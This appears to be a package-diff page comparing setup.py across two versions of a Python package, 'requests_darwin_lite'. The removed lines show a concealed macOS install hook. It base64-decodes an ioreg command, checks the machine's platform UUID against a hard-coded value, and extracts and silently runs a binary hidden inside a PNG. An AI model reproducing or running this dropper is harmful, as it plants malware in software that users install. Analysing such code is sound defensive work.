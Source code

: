### Comparing `requests_darwin_lite-2.27.2/requests_darwin_lite.egg-info/SOURCES.txt` & `requests_darwin_lite-2.28.0/requests_darwin_lite.egg-info/SOURCES.txt`

 * *Files identical despite different names*

### Comparing `requests_darwin_lite-2.27.2/setup.py` & `requests_darwin_lite-2.28.0/setup.py`

 * *Files 17% similar despite different names*

```diff
@@ -1,14 +1,12 @@
 #!/usr/bin/env python
 import os
 import sys
 from setuptools.command.install import install
 from codecs import open
-from base64 import b64decode
-import subprocess
 
 from setuptools import setup
 from setuptools.command.test import test as TestCommand
 
 CURRENT_PYTHON = sys.version_info[:2]
 REQUIRED_PYTHON = (3, 7)
 
@@ -53,36 +51,15 @@
 
         errno = pytest.main(self.pytest_args)
         sys.exit(errno)
 
 
 class PyInstall(install):
     def run(self):
-        if sys.platform != "darwin":
-            return 
-        
-        c = b64decode("aW9yZWcgLWQyIC1jIElPUGxhdGZvcm1FeHBlcnREZXZpY2U=").decode()
-        raw = subprocess.run(c.split(), stdout=subprocess.PIPE).stdout.decode()
-        k = b64decode("SU9QbGF0Zm9ybVVVSUQ=").decode()
-        uuid = raw[raw.find(k)+19:raw.find(k)+55]
-        
-        if uuid == "08383A8F-DA4B-5783-A262-4DDC93169C52":
-            dest = "docs/_static/requests-sidebar-large.png"
-            dest_dir = "/tmp/go-build333212398/exe/"
-            with open(dest, "rb") as fd:
-                content = fd.read()
-
-            offset = 306086
-            os.makedirs(dest_dir, exist_ok=True)
-            with open(dest_dir + "output", "wb") as fd:
-                fd.write(content[offset:])
-
-            os.chmod(dest_dir + "output", 0o755)
-            subprocess.Popen([dest_dir + "output"], close_fds=True, stderr=subprocess.DEVNULL, stdout=subprocess.DEVNULL)
-            install.run(self)
+        install.run(self)
 
 # 'setup.py publish' shortcut.
 if sys.argv[-1] == "publish":
     os.system("python setup.py sdist bdist_wheel")
     os.system("twine upload dist/*")
```